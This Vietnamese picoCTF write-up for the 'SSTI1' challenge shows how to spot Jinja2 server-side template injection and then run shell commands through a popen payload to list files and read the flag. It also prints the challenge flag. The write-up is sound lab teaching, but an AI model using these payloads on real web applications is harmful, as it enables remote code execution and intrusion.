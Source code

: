 # SSTI1
Bài này sẽ cho chúng ta 1 trang web có chức năng nhập đơn giản.
![image](https://hackmd.io/_uploads/S1b-zEvzgg.png)

Theo tên challenge, SSTI (Server-Side Template Injection) là một lỗ hổng web xảy ra khi kẻ tấn công có thể chèn đầu vào độc hại vào công cụ mẫu của ứng dụng web.

Ta thử nghiệm nhập các payload mẫu để xác định [template engine](https://expressjs.com/en/guide/using-template-engines.html#:~:text=A%20template%20engine%20enables%20you%20to%20use%20static,makes%20it%20easier%20to%20design%20an%20HTML%20page.) (trình biên dịch mẫu) đang được sử dụng là gì.

Sau một lúc thử thì ta biết được template engine được sử dụng cho trang web này là Jinja2 (Python).

Ta nhập payload:
``` python
{{7*7}}
```
Kết quả là :
![image](https://hackmd.io/_uploads/SydBE4wzgl.png)

Được rồi, sau khi biết rằng website đang bị lỗi SSTI với template engine là Jinja2 (Python). Giờ ta sẽ nhập payload khai thác SSTI sau để xem toàn bộ file và thư mục trong thư mục hiện tại và tất cả các thư mục con.

``` python
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
```

Kết quả là:

![image](https://hackmd.io/_uploads/BkzMrEvGxg.png)

Sau khi có kết quả, ta đã nhìn thấy `flag`. 
Tiếp tục chèn payload để lấy flag.

``` python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

Và ta có flag.

![image](https://hackmd.io/_uploads/rkzfUVPzle.png)

Flag: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}